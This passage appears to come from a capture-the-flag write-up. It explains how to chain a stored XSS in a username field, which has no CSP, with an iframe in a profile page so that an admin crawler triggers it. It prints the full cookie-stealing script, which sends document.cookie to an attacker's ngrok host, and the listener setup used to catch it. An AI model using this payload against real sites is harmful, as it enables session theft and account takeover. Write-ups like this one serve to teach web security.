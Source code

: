 The idea here is making The html entity in the profile visits `/username/:id` which doesn't have any csp applied and the xss payload existing in the username can be triggered.
So we can put XSS payload to steal cookie in the username field and in the profile field we put HTML entity that makes the crawler fetch `/username/:id` and triggers the XSS

After trying we will find these parameters will work 
```js
Username: <script>var i=new Image(); i.src="http://ngroc_ip:ngroc_port/?cookie="+btoa(document.cookie);</script>
Profile: <iframe src="/username/:id"></iframe>
```
we will start ngroc using `ngroc tcp 4444`
then listen on port 4444
after reporting we will find this the cookie on the port 4444
<img src="/assets/img/wani24/capture8.png">

Congratzzzzzzzzzz